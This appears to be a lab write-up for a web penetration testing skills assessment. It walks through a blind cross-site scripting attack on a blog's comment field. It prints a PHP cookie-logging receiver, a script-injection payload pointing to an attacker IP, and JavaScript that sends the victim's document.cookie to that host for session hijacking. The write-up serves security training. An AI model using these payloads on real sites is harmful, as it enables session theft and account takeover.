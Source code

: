# Skills Assessment

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag

### Step 1: Identify a vulnerable user-input field

For this assessment, the vulnerable user-input field is accessible when clicking in "Welcome to Security Blog".

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-13 22-16-35 (1).png" alt=""><figcaption></figcaption></figure>

This XSS vulnerability is a Blind-XSS, in order to create a proof of concept, we must create a temporary helper file to receive a connection.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['TARGET_IP']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Then we start the server with `sudo php -S 0.0.0.0:80`.

### Step 2: Find a working XSS payload&#x20;

The vulnerable payload found is:

```html
"><script src=http://10.10.14.32/website></script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-13 22-26-21.png" alt=""><figcaption></figcaption></figure>

And we received a 200 Response from our payload!

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-13 22-28-14.png" alt=""><figcaption></figcaption></figure>

### Step 3: Steal the victim's cookies

Now we must find a way to still the cookie

Let's create another payload. First we create a a file with the command nano script.js, and then we add the following:

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie
```

And we fill the comment section again. But this time we point our script to our file:

```html
"><script src=http://10.10.14.32/script.js></script>
```

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-13 22-34-01.png" alt=""><figcaption></figcaption></figure>

And when we check the logs, we can see we got a session cookie, and subsequently our flag!

<figure><img src="../../../.gitbook/assets/Screenshot from 2024-10-13 22-43-42edited (1).png" alt=""><figcaption></figcaption></figure>
